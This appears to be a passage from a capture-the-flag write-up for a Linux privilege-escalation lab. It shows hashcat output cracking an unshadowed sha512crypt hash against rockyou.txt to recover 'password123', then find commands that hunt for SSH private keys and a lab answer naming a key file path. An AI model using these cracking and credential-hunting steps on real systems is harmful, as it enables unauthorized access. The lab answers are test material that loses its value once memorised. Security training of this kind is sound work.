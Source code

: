 ```bash
:~# hashcat -m 1800 unshadowed  rockyou.txt --show
Hashfile 'unshadowed' on line 2 (daemon:*:1:1:daemon:/usr/sbin:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 3 (bin:*:2:2:bin:/bin:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 4 (sys:*:3:3:sys:/dev:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 5 (sync:*:4:65534:sync:/bin:/bin/sync): Token length exception
Hashfile 'unshadowed' on line 6 (games:*:5:60:games:/usr/games:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 7 (man:*:6:12:man:/var/cache/man:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 8 (lp:*:7:7:lp:/var/spool/lpd:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 9 (mail:*:8:8:mail:/var/mail:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 10 (news:*:9:9:news:/var/spool/news:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 11 (uucp:*...:10:uucp:/var/spool/uucp:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 12 (proxy:*:13:13:proxy:/bin:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 13 (www-da...:33:33:www-data:/var/www:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 14 (backup...4:34:backup:/var/backups:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 15 (list:*...g List Manager:/var/list:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 16 (irc:*:39:39:ircd:/var/run/ircd:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 17 (gnats:...m (admin):/var/lib/gnats:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 18 (nobody...5534:nobody:/nonexistent:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 19 (libuui...00:101::/var/lib/libuuid:/bin/sh): Token length exception
Hashfile 'unshadowed' on line 20 (Debian...103::/var/spool/exim4:/bin/false): Token length exception
Hashfile 'unshadowed' on line 21 (sshd:*...:/var/run/sshd:/usr/sbin/nologin): Token length exception
Hashfile 'unshadowed' on line 22 (statd:...3:65534::/var/lib/nfs:/bin/false): Token length exception
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
```

<br>

<h2>Task 7 . Privilege Escalation - SSH Keys</h2>
<h3 align="left">Answer the question below</h3>

> 7.1. <em>What's the full file path of the sensitive file you discovered?</em><br><a id='7.1'></a>
>> <strong><code>/backups/supersecretkeys/id_rsa</code></strong><br>

```bash
TCM@debian:~$ find / -name authorized_keys 2> /dev/null
TCM@debian:~$ find / -name id_rsa 2> /dev/null
/backups/supersecretkeys/id_rsa
TCM@debian:~$
```

<br>

<h2>Task 7 . Privilege Escalation - SSH Keys</h2>
